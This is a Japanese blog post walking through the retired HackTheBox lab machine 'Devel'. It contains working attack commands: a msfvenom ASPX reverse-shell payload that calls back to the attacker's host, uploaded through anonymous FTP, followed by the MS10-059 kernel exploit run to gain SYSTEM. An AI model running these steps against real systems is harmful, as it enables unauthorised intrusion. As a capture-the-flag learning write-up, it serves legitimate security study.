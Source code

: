 ```yaml
---
title:  【Easy/Windows】DevelWriteup(HackTheBox)
date: "2022-07-23"
template: "post"
draft: false
slug: "hackthebox-devel"
category: "HackTheBox"
tags:
  - "HackTheBox"
  - "Windows"
  - "EasyBox"
description: "HackTheBoxのリタイアマシン「Devel」のWriteUpです。"
socialImage: "/media/cards/no-image.png"

---
```


「Hack The Box」という、ペネトレーションテストの学習プラットフォームを利用してセキュリティについて学んでいます。
「Hack The Box」のランクは、本記事執筆時点でProHackerです。

<img src="../../static/media/2022-07-23-hackthebox-devel/327080.png" alt="Hack The Box">

今回は、HackTheBoxのリタイアマシン「Devel」のWriteUpです。

## 本記事について

**本記事の内容は社会秩序に反する行為を推奨することを目的としたものではございません。**

自身の所有する環境、もしくは許可された環境以外への攻撃の試行は、「不正アクセス行為の禁止等に関する法律（不正アクセス禁止法）」に違反する可能性があること、予めご留意ください。

またすべての発言は所属団体ではなく個人に帰属します。

<!-- omit in toc -->

## もくじ
- [本記事について](#本記事について)
- [もくじ](#もくじ)
- [探索](#探索)
- [内部探索](#内部探索)
- [権限昇格](#権限昇格)
- [まとめ](#まとめ)

## 探索

とりあえずいつも通りポートスキャンを仕掛けます。

結果、どうやらFTPのAnonymousログインが可能なようです。

``` bash
$ sudo sed -i 's/^[0-9].*targethost.htb/10.10.10.5  targethost.htb/g' /etc/hosts
$ nmap -sV -sC -T4 targethost.htb| tee nmap1.txt
21/tcp open  ftp     Microsoft ftpd
| ftp-syst: 
|_  SYST: Windows_NT
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 03-18-17  02:06AM       <DIR>          aspnet_client
| 03-17-17  05:37PM                  689 iisstart.htm
|_03-17-17  05:37PM               184946 welcome.png
80/tcp open  http    Microsoft IIS httpd 7.5
|_http-title: IIS7
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/7.5
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

また、80番ポートではIISが稼働していました。

![image-20220723114718813](../../static/media/2022-07-23-hackthebox-devel/image-20220723114718813.png)

FTPのAnonymousログインが可能だったので、msvenomで作成したASPのペイロードをWebサーバに埋め込み、リバースシェルを取得しました。

``` bash
$ LHOST=`ip addr | grep -E -o "10.10.([0-9]{1,3}[\.]){1}[0-9]{1,3}"`
$ msfvenom -f aspx -p windows/shell_reverse_tcp LHOST=$LHOST LPORT=4444 -o rev.aspx

$ echo open 10.10.10.5 > ftp.txt && echo user anonymous >> ftp.txt && echo binary >> ftp.txt && echo put rev.aspx >> ftp.txt && echo quit >> ftp.txt
$ ftp -n < ftp.txt
```

これでシェルが取得できました。

## 内部探索

シェルが取得できたものの、悲しいことに`iis apppool\web`というよわよわ権限でした。

というわけで、権限昇格の手掛かりを探していきます。

とりあえず端末情報を見てみると、Windows7のマシンであることがわかりました。

![image-20220723203944396](../../static/media/2022-07-23-hackthebox-devel/image-20220723203944396.png)

内部のタスクやファイルを探索したものの使えそうなものはなかったので、端末の脆弱性を探すことにしました。

``` bash
$ python windows-exploit-suggester.py --database 2022-07-23-mssb.xls --systeminfo systeminfo.txt
[*] initiating winsploit version 3.3...
[*] database file detected as xls or xlsx based on extension
[*] attempting to read from the systeminfo input file
[+] systeminfo input file read successfully (utf-8)
[*] querying database file for potential vulnerabilities
[*] comparing the 0 hotfix(es) against the 179 potential bulletins(s) with a database of 137 known exploits
[*] there are now 179 remaining vulns
[+] [E] exploitdb PoC, [M] Metasploit module, [*] missing bulletin
[+] windows version identified as 'Windows 7 32-bit'
[*] 
[M] MS13-009: Cumulative Security Update for Internet Explorer (2792100) - Critical
[M] MS13-005: Vulnerability in Windows Kernel-Mode Driver Could Allow Elevation of Privilege (2778930) - Important
[E] MS12-037: Cumulative Security Update for Internet Explorer (2699988) - Critical
[*]   http://www.exploit-db.com/exploits/35273/ -- Internet Explorer 8 - Fixed Col Span ID Full ASLR, DEP & EMET 5., PoC
[*]   http://www.exploit-db.com/exploits/34815/ -- Internet Explorer 8 - Fixed Col Span ID Full ASLR, DEP & EMET 5.0 Bypass (MS12-037), PoC
[*] 
[E] MS11-011: Vulnerabilities in Windows Kernel Could Allow Elevation of Privilege (2393802) - Important
[M] MS10-073: Vulnerabilities in Windows Kernel-Mode Drivers Could Allow Elevation of Privilege (981957) - Important
[M] MS10-061: Vulnerability in Print Spooler Service Could Allow Remote Code Execution (2347290) - Critical
[E] MS10-059: Vulnerabilities in the Tracing Feature for Services Could Allow Elevation of Privilege (982799) - Important
[E] MS10-047: Vulnerabilities in Windows Kernel Could Allow Elevation of Privilege (981852) - Important
[M] MS10-015: Vulnerabilities in Windows Kernel Could Allow Elevation of Privilege (977165) - Important
[M] MS10-002: Cumulative Security Update for Internet Explorer (978207) - Critical
[M] MS09-072: Cumulative Security Update for Internet Explorer (976325) - Critical
[*] done
```

## 権限昇格

前項で脆弱性を特定することができました。

とりあえず`wwwroot`配下にはFTPでファイル書き込みが可能なので、刺さりそうなエクスプロイトをいくつか試してみました。

最終的に[MS10-059](https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS10-059)のPoCで上手くいきました。

``` bash
# ファイル転送
echo open 10.10.10.5 > ftp.txt && echo user anonymous >> ftp.txt && echo binary >> ftp.txt && echo put MS10-059.exe >> ftp.txt && echo quit >> ftp.txt
ftp -n < ftp.txt

# Exploit
MS10-059.exe 10.10.14.2 9999
```

これでSystem権限を取得できます。

``` bash
c:\inetpub\wwwroot>whoami
whoami
nt authority\system
```

## まとめ

簡単な問題だとさくさく解けるので気持ちいいですね。